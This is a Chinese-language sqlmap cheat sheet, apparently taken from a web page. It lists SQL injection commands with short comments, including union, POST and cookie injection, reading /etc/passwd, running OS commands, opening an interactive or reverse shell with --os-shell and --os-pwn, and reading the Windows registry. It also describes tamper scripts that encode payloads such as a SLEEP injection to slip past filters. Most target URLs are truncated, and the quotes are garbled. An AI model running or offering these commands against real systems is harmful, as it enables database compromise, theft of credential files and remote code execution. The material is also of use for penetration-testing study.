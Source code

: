 sqlmap -u “ –smart –dbms “Mysql”–union-cols #union 查询表记录  

sqlmap -u “ –smart –dbms “Mysql” –union-test #union 语句测试  
sqlmap -u “ –smart –dbms “Mysql” –union-use –banner #采用union 注入 

sqlmap -u “ –smart –dbms “Mysql”–union-test –union-tech orderby #union 配合 order by  
sqlmap -u “ –smart –dbms “Mysql”–method “POST” — data “id=1&cat=2″ #post注入  

sqlmap -u “ –smart –dbms “Mysql”–cookie “COOKIE_VALUE” #cookie注入  
sqlmap -u “ –smart –dbms “Mysql”-b #获取banner信息 
sqlmap -u “http://url/news?id=1” –level=3 –smart-v 1 -f #指纹判别数据库类型
sqlmap -u “http://url/news?id=1” –level=3 –smart–proxy”http://127.0.0.1:8118” #代理注入

sqlmap -u “http://url/news?id=1″–string”STRING_ON_TRUE_PAGE“  #指定关键词

sqlmap -u “ –smart –dbms “Mysql”–sql-shell #执行指定sql命令  
sqlmap -u “ –smart –dbms “Mysql”–file /etc/passwd  

sqlmap -u “ –smart –dbms “Mysql”–os-cmd=whoami #执行系统命令  

sqlmap -u “ –smart –dbms “Mysql”–os-shell #系统交互shell  

sqlmap -u “ –smart –dbms “Mysql”–os-pwn #反弹

shell  sqlmap -u “ –smart –dbms “Mysql”–reg-read #读取win系统注册表  

sqlmap -u “ –smart –dbms “Mysql” –dbs-o “sqlmap.log” #保存进度  

sqlmap -u “ –smart –dbms “Mysql” –dbs  -o “sqlmap.log” –resume  #恢复已保存进度 

 

 

======================================================================================

======================================================================================

 
SQLMAP自带的绕过脚本 --tamper详解


(1) apostrophemask.py UTF-8编码 
Example: 
* Input: AND '1'='1' 
* Output: AND %EF%BC%871%EF%BC%87=%EF%BC%871%EF%BC%87 

(2) apostrophenullencode.py unicode编码 
Example: 
* Input: AND '1'='1' 
* Output: AND %00%271%00%27=%00%271%00%27 

(3) appendnullbyte.py 添加%00 
Example: 
* Input: AND 1=1 
* Output: AND 1=1%00 
Requirement: 
* Microsoft Access 

(4) base64encode.py base64编码 
Example: 
* Input: 1' AND SLEEP(5)# 
* Output: MScgQU5EIFNMRUVQKDUpIw== 
